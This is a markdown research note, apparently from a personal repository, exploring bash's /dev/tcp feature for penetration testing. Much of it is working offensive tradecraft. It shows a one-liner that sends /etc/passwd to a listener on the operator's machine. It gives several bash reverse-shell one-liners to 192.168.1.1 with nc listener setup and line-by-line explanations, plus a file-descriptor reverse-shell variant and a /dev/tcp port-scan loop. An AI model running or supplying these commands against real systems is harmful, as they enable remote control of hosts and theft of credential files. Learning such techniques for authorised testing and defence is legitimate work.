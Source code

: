 ```yaml
---
title: Exploring /dev/tcp
date_created: 2021-07-11
date_updated: 
metadata: research
---
```

# Exploring /dev/tcp 

The goal of this document is to explore the possible utility of the `/dev/tcp` system within the context of penetration testing and general Linux workarounds. Note that this is me exploring the behavior of the system so some things are discovered and assumed through experimentation.

So there exists a system in bash where reads and writes to files in the `/dev/tcp` directory (like `/dev/tcp/host/port`) are interpreted as reads and writes to the corresponding host:port TCP socket. 

Let's consider a locally hosted service on port 9999. If I wanted to write data to it, I could access and write to `/dev/tcp/127.0.0.1/9999` instead of manually going through the process of opening a TCP socket, writing, then closing it.

Since the TCP connection is abstracted as a file, we can leverage other available features in bash like redirects to extend its functionality or to mimic other useful tools that may be missing from the target machine.

## File Transfer

If the target system is missing convenient file transfer utilities like `wget`, `curl`, `nc`, or `socat`, we can mimic their behavior through the `/dev/tcp` system. Consider a target machine that you have command execution on that doesn't have these utilities and a local machine with `nc` available.

1. File Upload

	```bash
	local$ nc -nvlp 80 < file.txt
	remote$ cat </dev/tcp/local/80 > file.txt
	```

2. File Download

	```bash
	local$ nc -nvlp 80 > file.txt
	remote$ cat /etc/passwd >/dev/tcp/local/80
	```

## HTTP Requests

Similarly, for HTTP-specific utilities such as `wget` or `curl`, it would still be possible to mimic their behavior albeit it would be more involved. The following snippet creates a file descriptor `3` to use to reference the connection to the target system. All inputs and outputs are done through the file descriptor.

```bash
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
```

For future research: PUT and POST requests.

## Reverse Shells In-Depth

If we want to extend our functionality on the remote system, it would be beneficial to have complete control. This can be done by creating a reverse shell would provide us direct interaction with a shell prompt.

Setup a listener on the local system with `nc` before executing any of the listed reverse shell one-liners.

```bash
local$ nc -nvlp 80
```

The reverse shell depends on bash; the bash binary could either be on `/bin/bash` or `/usr/bin/bash`. Do some initial information gathering on the host to determine the presence and absolute path of the bash shell.

```bash
remote$ /bin/bash -i &> /dev/tcp/192.168.1.1/80 0>&1
remote$ /bin/bash -c 'exec bash -i &> /dev/tcp/192.168.1.1/80 <&1'
```

Breaking down the one-liner:
- `/bin/bash -i` invokes bash in interactive mode. Bash paths may vary depending on installation.
- `&>` instructs bash to redirect STDOUT and STDERR to the next file descriptor. This is equivalent to `>filedescriptor 2>&1` and `>&filedescriptor`.
- `/dev/tcp/192.168.1.1/80` is the file descriptor used to represent the opened read/write socket to the host and port.
- `0>&1` redirects the output from the file descriptor and feeds it into the bash STDIN. This is also equivalent to `0<&1` and `<&1`.

There are possible alternatives of the above which creates its own file descriptors and manipulates those instead. This is similar to the method used for the HTTP requests shown above.

```bash
0<&196-;exec 196<>/dev/tcp/192.168.1.1/80; sh <&196 >&196 2>&196
```

- `0<&196-` closes the file descriptor number 196 in case its open on the remote system. It can be set to any number. Just take note of the special descriptors 0 STDIN, 1 STDOUT, and 2 STDERR.
- `exec 196<>/dev/tcp/196.168.1.1/80` opens the `/dev/tcp/` file descriptor and the corresponding TCP socket for read/write and assigns the file descriptor 196 to it.
- `sh <&196 >&196 2>&196` feeds the output from the socket to STDIN, and redirects STDOUT and STDERR to the created fd.

## Port Scanning

The following snippet will attempt to connect to all the ports for the specified host. If the first call fails, the `echo` command will not execute. This takes advantage of how combining multiple commands with `&&` only executes the second command when the first succeeds.

```bash
seq 1 65535 | while read port; do echo $port 2>/dev/null >/dev/tcp/127.0.0.1/$port && echo $port open; done
```

The following output will be shown when open ports are discovered. It's rudimentary but it could be useful in a pinch.

```
host$ 
80 open
631 open
```